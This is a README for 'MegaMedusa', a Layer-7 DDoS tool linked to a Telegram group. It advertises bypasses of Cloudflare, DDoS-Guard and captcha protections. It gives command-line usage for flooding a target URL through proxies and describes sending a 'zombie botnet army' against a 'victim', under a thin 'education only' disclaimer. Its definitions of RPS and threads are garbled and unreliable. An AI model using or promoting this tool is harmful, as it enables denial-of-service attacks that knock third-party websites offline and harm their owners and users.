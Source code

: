 # MegaMedusa Layer-7 DDoS Tool v3.1
 ![Screenshot_1](photo_2024-04-24_02-06-49.jpg)
 
 ### About :
- UAM Challenges Bypass ✅
- Cloudflare NoSec ✅
- DDoS Guard Bypass ✅
- vShield Website Bypass ✅
- ShieldSquare Captcha Bypass ✅
  
 ### Refference :
- Telegram : https://t.me/RipperSec
  
 ### Update v3.1 :
- Lagging Fixed & More Compatible
- More power & bypasses
- Ram & Cpu Usage (Low)
- Fixed Bugs
 ## Usage :
```
Usage: node MegaMedusa.js <link> <time> <rps> <threads> <proxy>
Example: node MegaMedusa.js https://example.com 500 30 10 proxy.txt
```
## Instructions :
- **Target**: By entering the victim's link target, you will be able to run a zombie botnet army to attack the victim
- **RPS**: Bytes is a term commonly used as a unit of data storage in computers
- **Threads**: thrs is a measure of bytes
 ## Installation Command :
```
sudo apt install curl 
curl https://raw.githubusercontent.com/creationix/nvm/master/install.sh | bash
source ~/.bashrc
nvm install --lts
python3 installer.py
```
 ## Proxy Scrape Command :
```
node scraper.js
```
 ## OS Support :
 --> Ubuntu / Linux / Debian / Windows / Termux

## Donation :
https://sociabuzz.com/kudagila/donate

## Disclaimer :
This tool only for Education, Pentesting, and Research Purposes!


